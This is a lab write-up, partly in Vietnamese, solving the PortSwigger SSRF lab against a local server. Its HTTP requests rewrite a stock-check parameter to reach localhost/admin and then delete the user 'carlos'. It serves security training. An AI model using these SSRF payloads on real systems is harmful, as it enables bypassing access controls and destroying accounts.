 # [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

Lỗ hổng: SSRF attacks against the server itself

Context: a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```
Here, the server will fetch the contents of the `/admin` URL and return it to the user.

Now of course, the attacker could just visit the `/admin` URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the `/admin` URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location.

**exploit**
1. Dùng burpsuite bắt request khi sử dụng chức năng check stock:
```http
POST /product/stock HTTP/1.1
Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
...

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2 
```
2. Gửi request đến repeater
3. Chỉnh sửa request thành:
```http
POST /product/stock HTTP/1.1
Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
...

stockApi=http%3a//localhost/admin
```
4. Gửi đi và nhận phản hồi:
![14297d2283875150759bfd29ff9e4030.png](../../../../../../_resources/14297d2283875150759bfd29ff9e4030.png)
5. Khi ấn trực tiếp nút `Delete` sẽ gửi GET request `http://localhost/admin/delete?username=carlos` xuất hiện lỗi do đang gửi request trực tiếp. Tiếp tục khai thác lỗi ssrf bằng cách chỉnh sửa request và gửi lại:
```http
POST /product/stock HTTP/1.1
Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
...

stockApi=http%3a//localhost/admin/delete?username=carlos
```
=> Tài khoản carlos đã bị xóa. Solved.